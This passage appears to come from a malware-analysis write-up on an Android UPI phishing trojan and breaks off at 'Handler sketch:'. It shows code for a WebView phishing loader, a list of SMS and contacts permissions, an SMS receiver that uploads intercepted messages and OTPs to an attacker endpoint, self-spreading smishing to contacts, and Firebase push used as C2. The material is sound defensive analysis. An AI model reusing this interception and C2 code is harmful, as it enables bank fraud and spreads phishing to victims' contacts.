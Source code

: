 Minimal loader:

```java
WebView wv = findViewById(R.id.web);
wv.getSettings().setJavaScriptEnabled(true);
wv.loadUrl(upiPage); // ex: https://<replit-app>/gate.htm
```

### Self-propagation and SMS/OTP interception
- Aggressive permissions are requested on first run:

```xml
<uses-permission android:name="android.permission.READ_CONTACTS"/>
<uses-permission android:name="android.permission.SEND_SMS"/>
<uses-permission android:name="android.permission.READ_SMS"/>
<uses-permission android:name="android.permission.CALL_PHONE"/>
```

- Contacts are looped to mass-send smishing SMS from the victim’s device.
- Incoming SMS are intercepted by a broadcast receiver and uploaded with metadata (sender, body, SIM slot, per-device random ID) to `/addsm.php`.

Receiver sketch:

```java
public void onReceive(Context c, Intent i){
  SmsMessage[] msgs = Telephony.Sms.Intents.getMessagesFromIntent(i);
  for (SmsMessage m: msgs){
    postForm(urlAddSms, new FormBody.Builder()
      .add("senderNum", m.getOriginatingAddress())
      .add("Message", m.getMessageBody())
      .add("Slot", String.valueOf(getSimSlot(i)))
      .add("Device rand", getOrMakeDeviceRand(c))
      .build());
  }
}
```

### Firebase Cloud Messaging (FCM) as resilient C2
- The payload registers to FCM; push messages carry a `_type` field used as a switch to trigger actions (e.g., update phishing text templates, toggle behaviours).

Example FCM payload:

```json
{
  "to": "<device_fcm_token>",
  "data": {
    "_type": "update_texts",
    "template": "New subsidy message..."
  }
}
```

Handler sketch:
